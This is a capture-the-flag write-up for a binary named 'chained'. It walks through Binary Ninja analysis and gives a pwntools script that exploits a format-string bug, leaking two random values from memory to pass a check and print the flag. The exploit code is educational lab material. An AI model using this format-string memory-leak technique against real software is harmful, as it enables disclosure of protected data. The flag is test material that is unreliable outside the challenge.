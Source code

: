 # [chained](https://github.com/ace-lii/ctf_writeups/blob/main/code/format_strings/chained)

* Open ***Binary Ninja*** as usual. Examine the main function to understand the logic. It generates two random numbers below 1000, sums them, and compares the result with the input.
![](https://github.com/ace-lii/ctf_writeups/blob/main/img/chained1.png?raw=true)


* Determine where these two random numbers are stored in memory using Binary Ninja.

![](https://github.com/ace-lii/ctf_writeups/blob/main/img/chained3.png?raw=true)

* Calculate the sum as you obtain values from the "random1/2" addresses. Use ***pwntools*** to play around with the chained.

```
from pwn import *

rdn1 = 0x0804a080
rdn2 = 0x0804a088

i = 13 # why 13 can use similar bash used in task2
sum = 0
p = process("./chained")
name = p32(rdn1) + p32(rdn2) + b" %" + str(i).encode() + b"$s " + b" %" + str(i + 1).encode() + b"$s"

print("\n\n--------------index is {} name is {}".format(i, name))

try:
    while True:
        prompt = p.recvline()
        print("\nprompt {}".format(prompt))

        if b"What is your name?" in prompt:
            p.sendline(name)
            try:
                prompt = p.recvline().strip(b"\x80\xa0\x04\x08\x88\xa0\x04\x08").strip()
                rdn1_val = int(prompt.split(b" ")[0])
                rdn2_val = int(prompt.split(b" ")[2])
                sum = rdn1_val + rdn2_val
                print("sum = {} r1 = {} r2 ={}".format(sum, rdn1_val, rdn2_val))
            except:
                pass
        elif b"Im thinking" in prompt:
            p.sendline(str(sum).encode())
            print(p.recvall())
            break
        elif b"totally wrong" in prompt:
            print("Reached the end of interaction")
        else:
            continue

except EOFError:
    print("EOFError: Process exited unexpectedly")

p.close()
```


> flag: ENROL_IN_COMP6477

 

 
